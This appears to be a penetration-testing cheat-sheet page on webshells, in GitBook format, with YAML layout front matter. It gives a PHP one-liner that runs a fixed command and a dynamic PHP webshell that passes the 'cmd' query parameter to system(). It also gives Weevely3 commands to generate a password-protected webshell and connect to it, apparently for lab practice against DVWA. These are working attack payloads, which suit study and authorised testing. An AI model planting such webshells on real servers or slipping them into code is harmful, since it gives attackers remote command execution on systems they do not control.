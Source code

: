```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Webshells

## PHP

> Kali has various webshells under `/usr/share/webshells`.

{% tabs %}
{% tab title="PreDefined" %}
```php
<?php system("whoami"); ?>
```
{% endtab %}

{% tab title="Dynamic" %}
```php
<?php system($_GET['cmd']); ?>
```
{% endtab %}
{% endtabs %}

More [here](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html).

## Weevely3

{% code overflow="wrap" %}
```bash
# generate webshell
./weevely.py generate test123 ~/dvwa/weevely.php
# call webshell
sudo weevely.py <URL>/weevely.php test123
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="weevely3" %}
{% embed url="https://github.com/epinna/weevely3" %}
{% endtab %}
{% endtabs %}
